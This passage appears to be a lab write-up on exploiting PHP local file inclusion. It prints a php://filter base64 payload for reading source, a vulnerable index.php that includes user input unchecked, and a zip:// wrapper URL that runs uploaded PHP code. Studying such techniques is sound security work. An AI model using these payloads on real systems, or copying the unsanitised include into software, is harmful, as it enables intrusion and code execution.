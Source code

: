 When `.php` files are included they are executed first and then get rendered as normal HTML page.

**Source Code Disclosure**

```html
php://filter/read=convert.base64-encode/resource=config
```

Let’s try to read index.php:

![image.png](image%205.png)

Now decode base64-encoded string.

```bash
<?php
$file = $_GET['file'];
if(isset($file))
{
    include("$file".".php");
}
else
{
include("home.php");
}
?>

```

It seems php file appends extension to uploaded files, there are bypass methods like Path Truncation and Null Byte Injection for this, but they are mostly for outdated versions of php, otherwise we are restricted including and consequently (using PHP wrappers) reading PHP files.

I am gonna use `zip://` scheme again without `.php` extension appended at the end as it will append it itself.

![image.png](image%206.png)

We can also check `phpinfo()`:

```php
<?php phpinfo() ?>
```

```bash
http://192.168.169.229/index.php?file=zip://uploads/upload_1748601710.zip%23phpinfo
```

That’s it it works.

![image.png](image%207.png)

There are other PHP Wrappers like `data`, `expect`, `input` but they all require `allow_url_include` be `on` or `expect` extension  to be set for `expect` wrapper .

[PHP wrappers and streams](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)

![image.png](image%208.png)
